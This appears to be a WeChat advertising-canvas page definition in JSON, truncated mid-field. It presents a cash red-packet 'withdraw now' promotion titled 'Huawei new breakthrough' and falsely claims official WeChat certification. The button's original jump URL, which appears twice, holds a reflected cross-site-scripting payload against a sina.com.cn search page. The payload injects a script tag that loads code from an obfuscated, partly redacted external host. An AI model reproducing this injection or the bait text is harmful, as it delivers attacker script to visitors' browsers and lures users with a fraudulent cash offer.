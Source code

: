         PageData =
{"adCanvasInfo":{"PageList":{"Page":{"backgroundColor":"#ffffff","backgroundCover":null,"componentItemList":{"componentItem":[{"adLocation":"sns","fileSize":"88781","fromComponentId":"21473038077_21473021229_41","id":"21473043777_21473094755_41","imageHeight":"750","imageMd5":"c0c0c821dadba6eb415a0976912634cc","imageWidth":"750","initHeight":"800","initWidth":"800","materialId":"8146601850","name":"顶部图片","paddingBottom":"0","paddingLeft":"0","paddingRight":"0","paddingTop":"0","pureImageUrl":"https://wxsnsdythumb.wxs.qq.com/141/20204/snscosdownload/SZ/reserved/64fbe0f700085d5f25a12f20c364bc1e0000008d00004eec?m=c0c0c821dadba6eb415a0976912634cc&ck=c0c0c821dadba6eb415a0976912634cc&sha256=8f39a77e87a30e34766cd32a2c029022146e216c1c904325b2a3abfc19b148d5","type":"41","viewType":"0","widgetType":"top","widgetTypeV2":"topimg"},{"content":"活动经微信官方认证，真实有效！","expand":"0","fontColor":"#DE2821","fontSize":"28","fromComponentId":"21473038077_21473055200_1","id":"21473043777_21473043793_1","name":"文本","paddingBottom":"22","paddingLeft":"48","paddingRight":"48","paddingTop":"22","showAdvanced":"0","showType":"1","textAlignment":"1","type":"1","widgetType":"text","widgetTypeV2":"text"},{"appInfo":null,"appPageUrl":null,"appPageUrlAndroid":null,"appid":null,"borderSize":"0","btnBgColorTheme":"#DE2821","btnBorderColorTheme":"#FFFFFF","btnFontType":"0","btnHeight":"80","btnJumpUrl":"https://as.weixin.qq.com/cgi-bin/redirect?comp_id=21473060582&token=0daa2ef106e517a1205bc05b983a5d61&wx_uid=31128679","btnStyle":"1","btnTitle":"立即提现","btnType":"0","cornerRadius":"4","fontColor":"#FFFFFF","fontSize":"30","fromComponentId":"21473038077_21473072500_21","id":"21473043777_21473060582_21","iosAppInfo":null,"iosAppid":null,"mpJumpType":"1","name":"跳转链接","openSdkAppId":null,"origBtnJumpUrl":"https://手动打码.sina.com.cn/search/home.html?cond=xss%3C/script%3E%3Cbody/hidden%3E%3Cscript%20src=//0x0072.手动打码.手动打码.0x00BF%3E%3C/script%3E%3C!--&id=44","paddingBottom":"28","paddingLeft":"185","paddingRight":"185","paddingTop":"28","pkg":null,"subType":"0","type":"21","widgetType":"button","widgetTypeV2":"link"},{"content":"⁠","expand":"0","fontColor":"#595959","fontSize":"30","fromComponentId":"21473038077_21473021230_1","id":"21473043777_21473027173_1","name":"文本","paddingBottom":"22","paddingLeft":"48","paddingRight":"48","paddingTop":"22","showAdvanced":"0","showType":"0","textAlignment":"0","type":"1","widgetType":"text","widgetTypeV2":"text"},{"bgColor":"clear","fromComponentId":"21473038077_21473038078_103","id":"21473043777_21473078523_103","layoutHeight":"28","layoutItems":{"componentItem":{"borderColor":"#000000","borderSize":"0","content":"页面内容及服务由佛山市禅城区董冬商贸有限公司提供","cornerRadius":"0","fontColor":"#B3B3B3","fontSize":"20","fromComponentId":"21473038077_21473055201_1","id":"21473043777_21473078524_1","layoutHeight":"28","layoutWidth":"654","maxLines":"1","name":"文本","paddingBottom":"0","paddingLeft":"0","paddingRight":"0","paddingTop":"0","textAlignment":"1","textVerticalAlignment":"2","type":"1","verticalAlignment":"0"}},"layoutWidth":"750","name":"合规","paddingBottom":"18","paddingLeft":"48","paddingRight":"48","paddingTop":"18","subType":"0","type":"103","useSnap":"0","widgetType":"compliance","widgetTypeV2":"compliance","wxad_bricksData":{"mainBodyContent":"页面内容及服务由佛山市禅城区董冬商贸有限公司提供","mainBodyFontColor":"#B3B3B3","medicineAdPermissionNo":null,"medicineAdvice":"忠告语：请在医生或者临床营养师指导下使用","medicineApplicative":null,"medicineCatalogId":null,"medicineIconType":null,"medicineProductOuterId":null,"medicineSuitable":null,"medicineTitle":"药品名称","medicineUnsuitable":null,"medicineWarning":"警示语及注意事项：不适用于非目标人群使用","size":"default","styleType":"1"}},{"content":null,"fontColor":"clear","fontSize":"0","fromComponentId":"21473038077_21473072501_1","id":"21473043777_21473043798_1","layoutHeight":"220","layoutWidth":"750","name":"占位","type":"1","widgetType":"footer_space","widgetTypeV2":"footer_space"}]}}},"basicRootFontSize":"1","basicWidth":"750","btnType":"1","canvasName":"feng-js-5","fileSize":"88781","globalComponentItems":{"componentItem":{"appearPaddingBottom":"0","appearPaddingTop":"0","backgroundBlurEffect":"1","backgroundBlurEffectColor":"#F0F0F0","backgroundBlurEffectColorAlpha":"0.5","backgroundColor":"#F0F0F0","backgroundColorAlpha":"0.96","backgroundImg":null,"componentItem":{"alitaPageId":null,"appInfo":null,"appPageUrl":null,"appPageUrlAndroid":null,"appid":null,"borderSize":"0","btnBgColorTheme":"#DE2821","btnBorderColorTheme":"#FFFFFF","btnFontType":"0","btnJumpUrl":"https://as.weixin.qq.com/cgi-bin/redirect?comp_id=21473027166&token=7231cd7e709d4ae233e4a9939a13d6cd&wx_uid=31128679","btnStyle":"1","btnTitle":"立即提现","btnType":"0","cornerRadius":"4","fontColor":"#FFFFFF","fontSize":"28","fromComponentId":"21473038077_21473009112_21","id":"21473043777_21473027166_21","iosAppInfo":null,"iosAppid":null,"layoutHeight":"70","layoutWidth":"160","mpJumpType":"1","name":"跳转链接","openSdkAppId":null,"origBtnJumpUrl":"https://手动打码.sina.com.cn/search/home.html?cond=xss%3C/script%3E%3Cbody/hidden%3E%3Cscript%20src=//0x0072.手动打码.手动打码.0x00BF%3E%3C/script%3E%3C!--&id=44","pkg":null,"subType":"0","type":"21","widgetType":"button","widgetTypeV2":"link"},"desc":"派发现金红包","descColor":"#4c4c4c","descColorAlpha":"0.5","fromComponentId":"21473038077_21473009111_134","iconUrl":"https://wxsnsdythumb.wxs.qq.com/141/20204/snscosdownload/SZ/reserved/64fbe235000345fd259a96f7b264bc1e0000008d00004eec?m=f61272b5020c89f46cbc5b4892d1c44e&ck=f61272b5020c89f46cbc5b4892d1c44e&sha256=5df9d52874442d74afb3d41cce4e9902e55db129870eef173b6b4f2120845e20","id":"21473043777_21473027165_134","imageMd5":"f61272b5020c89f46cbc5b4892d1c44e","isFullClickable":"1","materialId":"8146655539","name":"悬浮组件","onlyShowInTimelineAd":"0","paddingBottom":"0","paddingLeft":"0","paddingRight":"0","paddingTop":"0","title":"华为新突破","titleColor":"#171717","titleColorAlpha":"1","type":"134","widgetType":"float_button","widgetTypeV2":"